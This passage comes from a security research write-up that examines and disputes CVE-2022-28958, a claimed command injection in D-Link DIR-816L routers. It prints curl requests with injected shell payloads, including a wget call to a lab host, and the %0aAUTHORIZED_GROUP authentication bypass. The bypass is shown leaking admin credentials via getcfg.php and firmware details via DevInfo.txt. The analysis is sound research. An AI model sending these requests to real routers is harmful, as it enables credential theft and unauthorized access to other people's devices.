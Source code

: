 result?\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -d "action=sethostname&value=%26%20ls%20-l%20%26%0aAUTHORIZED\_GROUP=ok" http://192.168.0.1:80/shareport.php\\n\`\`\`\\n::\\n\\n\`\`\`xml\\n\\n\\n sethostname\\n OK\\n \\n\\n\`\`\`\\n\\nAgain, no proof the exploit was successful. Perhaps exploitation is blind? If that's the case, why provide a proof of concept using \`& ls -la &\`? Maybe the proof of concept messed up the shell metacharacters? A single ampersand is an odd choice. We fiddled with the metacharacters and tested all these exploits against firmware versions: 2.03b1, 2.06b1 (the reportedly vulnerable version), and 2.06b09 Beta. The "exploits" didn't work on any of these firmware. But why?\\n\\n# CVE-2022-28958: Not a Real Vulnerability\\n\\nLet's return to the researcher's original claim. They state the following code in \`shareport.php\` does not have \*"enough filter with parameter ‘value’, it just passed to function set which execute command directly."\*\\n\\n\`\`\`php\\nset("/device/gw\_name", $value);\\n\`\`\`\\n\\nThe claim that \`set()\` will \*"execute command directly"\* is what needs to be examined. It would seem the researcher thinks \`set()\` will execute \`/device/gw\_name\` with \`$value\` as some type of parameter. However, after looking at the firmware's code, we know \`/device/gw\_name\` isn't a binary and \`set()\` \*doesn't\* execute commands.\\n\\nExecution of PHP files like \`getcfg.php\` or \`shareport.php\` on the DIR-816L is a bit opaque. The files are served via the \`www\` binary, but it passes execution of \`php\` files to a binary called \`cgibin\`. \`cgibin\` passes execution to a binary called \`xmldb\`, which has a custom PHP interpreter. Exactly how custom, we're not sure, but they've added a few builtins like \`set()\`, \`setattr()\`, \`event()\`, and \`query()\`. These extra builtins are for interacting with the \*xml database\* (hence the binary's name, \`xmldb\`).\\n\\nThe xml database contains the router's configuration. When the user calls \`set("/device/gw\_name", $value)\`, they are inserting \`$value\` into the \`/device/gw\_name\` entry in the xml database. If you root the device, you’ll find you can examine the database from the device's command line using the \`xmldbc\` (xml db client) binary. In the following example, we list the contents of \`/device/gw\_name\` in the xml database of a DIR-816L we had just “exploited.”\\n\\n\`\`\`sh\\n# xmldbc -g /device/gw\_name\\n& wget http://192.168.0.164/test &\\n# xmldbc -d /tmp/config.xml\\n# cat /tmp/config.xml | grep gw\_name\\n& wget http://192.168.0.164/test & \\n\`\`\`\\n\\nHere you can see our malicious \`wget\` was inserted into the database, just as we said. The shell metacharacters were even encoded properly when inserted into the xml. Not only is there no evidence of \`wget\` being executed, but it isn't even part of \`set()\`'s intended functionality. \`set()\` does not execute \`value\` "directly", as stated in the disclosure.\\n\\nLooking deeper with Ghidra, we didn't find any evidence of command execution when tracing the logic from the http server through \`xmldbc\` and into the database. It's obviously difficult to prove a negative, especially with so many moving parts. But after testing the exploits, looking at the functionality, and examining where the payload lands, it’s difficult to say the original claims hold up.\\n\\nHowever, this vulnerability is in the KEV Catalog so it’s worth looking even deeper. Let’s seek out artifacts left by CVE-2022-28958 “exploitation” on internet-facing devices.\\n\\n# Internet Scanning\\n\\nAs stated earlier, the researcher’s original proof of concept had \`%0aAUTHORIZED\_GROUP=1\` at the end of the payload. This authentication bypass satisfies the \`AUTHORIZED\_GROUP\` check in DIR-816L PHP files (including \`shareport.php\`):\\n\\n\`\`\`php\\nif ($AUTHORIZED\_GROUP < 0)\\n{\\n $result = "FAIL";\\n $reason = i18n("Permission deny. The user is unauthorized.");\\n}\\nelse\\n{\\n if ($\_POST\["action"\] == "sethostname")\\n {\\n $value = $\_POST\["value"\];\\n if ($value != "")\\n {\\n set("/device/gw\_name", $value);\\n event("SHAREPORT.SETGWNAME");\\n $RESULT = "OK";\\n $REASON = ""; \\n }\\n } \\n else fail(i18n("Unknown ACTION!"));\\n}\\n?>\\n\`\`\`\\n\\nThe bypass is useful because it gives an attacker access to most of the router's PHP logic. As we’ve stated, the bypass has been assigned five CVE at this point, and it's typically associated with a credential leak (which also happens to work on the DIR-816L):\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~/initial-access/feed/cve-2019-10891$ curl http://192.168.0.1:80/getcfg.php -d "SERVICES=DEVICE.ACCOUNT%0AAUTHORIZED\_GROUP=1"\\n\`\`\`\\n::\\n\`\`\`xml\\n\\n\\n\\n DEVICE.ACCOUNT\\n \\n wget http://192.168.0.164/test\\n \\n \\n 1\\n 2\\n 1\\n \\n USR-\\n Admin\\n \\n labpass1\\n 0\\n \\n \\n \\n \\n \\n \\n 0\\n \\n \\n 0\\n \\n 180\\n 128\\n 16\\n \\n \\n\\n\\n\`\`\`\\n\\nCredential leaks on routers are useful for attackers that manipulate router configurations or upload malicious firmware, but for our purposes, the authentication bypass can be used to grab detailed version information from the \`/DevInfo.txt\` endpoint. Like this:\\n\\n::shell-prompt\\n\`\`\`sh\\nalbinolobster@mournland:~/initial-access/feed/cve-2019-10891$ curl http://192.168.0.1/DevInfo.txt?vuln=check%0aAUTHORIZED\_GROUP=1270\\nFirmware External Version: V2.06\\nFirmware Internal Version: f4jc\\nModel Name: DIR-816L\\nHardware Version:\\nWLAN Domain: CA\\nKernel: 2.6.30.9\\nLanguage: en\\nGraphcal Authentication: Disable\\nLAN MAC: f8:e9:03:c1:81:b4\\nWAN MAC: f8:e9:03:c1:81:b7\\nWLAN MAC: f8:e9:03:c1:81:b4\\n\`\`\`\\n::\\n\\nUsing the bypass also allows us to read \`/mydlink/get\_WanSetting.asp\` which contains the “exploited” hostname. For example, below you can see the \`wget\` command from our exploitation attempt